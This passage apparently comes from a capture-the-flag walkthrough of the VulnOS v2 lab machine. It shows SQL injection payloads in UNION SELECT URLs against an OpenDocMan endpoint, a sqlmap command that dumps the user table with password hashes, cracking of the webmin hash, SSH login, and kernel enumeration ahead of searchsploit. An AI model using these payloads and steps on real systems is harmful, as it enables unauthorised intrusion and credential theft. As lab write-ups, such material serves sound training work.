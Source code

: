 Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,database%28%29,3,4,5,6,7,8,9` tells us that the current database is **jabcd0cs**.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,user%28%29,3,4,5,6,7,8,9` tells us that the current user is **root@localhost**. This means we have a high chance of exploiting a privileged database user.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,user,3,4,5,6,7,8,9%20from%20mysql.user` (privileged command) tells us that the mysql.user table contains the users `root`, `debian-sys-maint`, `drupal7`, `phpmyadmin`.

At this point doing SQL injection manually can be quite time-consuming. Hence, let us turn to `sqlmap` for help. I needed to run level 2 tests in order for `sqlmap` to detect the injection flaw (sqlmap -u "http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -p add_value --level=2)

```
root@kali:~# sqlmap -u "http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -p add_value -D jabcd0cs -T odm_user --dump

// output truncated
Database: jabcd0cs                                                                                                                                  
Table: odm_user
[2 entries]
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| id | phone       | Email              | username | password                                 | last_name | first_name | department | pw_reset_code |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| 1  | 5555551212  | webmin@example.com | webmin   | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
| 2  | 555 5555555 | guest@example.com  | guest    | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
```

![](vulnos_2_5.png)

Let us try to crack the password of user `webmin`. Using an online md5 hash decryptor, we quickly deduce that the password is `webmin1980`. However, it took me awhile to realise that we can actually get in through the front door (SSH). Anyways, now that we're in, we can start finding privilege escalation vectors:

```
webmin@VulnOSv2:~$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux

webmin@VulnOSv2:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

root@kali:~/drupal/gitexd-drupalorg/drupalorg# searchsploit linux 3.13
```